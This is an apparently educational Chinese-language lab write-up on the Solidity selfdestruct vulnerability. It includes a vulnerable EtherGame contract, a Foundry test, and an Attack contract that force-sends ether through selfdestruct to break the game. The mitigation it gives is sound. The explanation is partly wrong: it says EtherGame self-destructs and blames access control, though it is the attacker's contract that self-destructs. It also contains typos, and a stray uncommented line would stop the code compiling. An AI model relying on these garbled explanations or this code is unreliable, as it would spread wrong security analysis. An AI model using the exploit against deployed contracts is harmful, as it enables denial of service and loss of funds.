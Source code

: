 # Selfdestruct
[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)  
**名称：** 自毁漏洞  
**描述：**    
这个EtherGame合约的自毁漏洞是智能合约代码中的一个缺陷，它允许攻击者通过EtherGame合约自毁（使用selfstruct操作码）来破坏游戏。  
该漏洞的产生是由于Attack合约中的doc函数在收到大量以太币后对EtherGame合约执行自毁操作。由于执行自毁操作后，EtherGame合约的功能被永久禁用，这使得任何人都无法存入以太币或者领取获胜者的奖励。


**场景：**  
1. 部署合约  
2. 玩家（假设是Alice和Bob）决定参与游戏，并各自向约合存入1个以太币。
3. 部署Attack合约并且在构造函数中传入EtherGame合约地址
4. 调用Attack.attack发送5个以太币到EtherGame合约。这将破坏游戏，任何人都不可能成为赢家。

**发生了什么？**  
攻击者迫使EtherGame合约的余额等于7个以太币。  
现在任何人都不能向EtherGame合约存入以太币，也无法确定赢家。  
因为访问控制缺失或者不足，攻击者可以自毁合约。  
selefdestruct(address)函数会从合约中删除所有的字节码并且发送所有的以太币到指定的合约地址。  

**修复建议：**  
不要依赖this.balance来获取存入的以太币，而是用一个状态变量来表示存入的总金额。  

**EtherGame 合约：**  
```
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
**如何测试：**  
forge test --contracts src/test/Selfdestruct.sol -vvvv  
```
// 测试使用自毁函数的场景
function testSelfdestruct() public {
    // 记录Alice的余额
    console.log("Alice balance", alice.balance);
    // 记录Eve的余额
    console.log("Eve balance", eve.balance);

    // 记录Alice存款的开始
    console.log("Alice deposit 1 Ether...");
    // 将消息发送者设置为Alice
    vm.prank(alice);
    // Alice向EtherGame合约存入1个ETH
    EtherGameContract.deposit{value: 1 ether}();

    // 记录Eve存款的开始
    console.log("Eve deposit 1 Ether...");
    // 将消息发送者设置为Eve
    vm.prank(eve);
    // Eve向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录EtherGame合约的余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // 记录攻击的开始
    console.log("Attack...");
    //使用EtherGame合约作为参数创建Attack合约的新实例。
    AttackerContract = new Attack(EtherGameContract);
    // 向Attacker合约的dos函数发送5个以太币。
    AttackerContract.dos{value: 5 ether}();
    // 记录攻击后EtherGame合约的新余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // 记录攻击的完成
    console.log("Exploit completed, Game is over");
    // 尝试向EtherGameContract存入1个以太币。由于合约已被销毁，此调用将失败。
    EtherGameContract.deposit{value: 1 ether}(); // 由于合约已被销毁，此调用将失败。
}

//  用于攻击EtherGame合约的合约。
contract Attack {
    // 要攻击的EtherGame合约。
    EtherGame etherGame;

    // 构造函数用于设置EtherGame合约。
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // 执行攻击的函数
    function dos() public payable {
        // 通过发送以太币来破坏游戏，使游戏余额大于等于7个以太币 
        balance is >= 7 ether.

        // 将EtherGame合约地址转换为可支付的地址
        address payable addr = payable(address(etherGame));
        // 自毁合约，并将其余额发送到EtherGame合约
        selfdestruct(addr);
    }
}
```  
**红框：** 攻击成功，游戏结束。
![Alt text](image-1.png)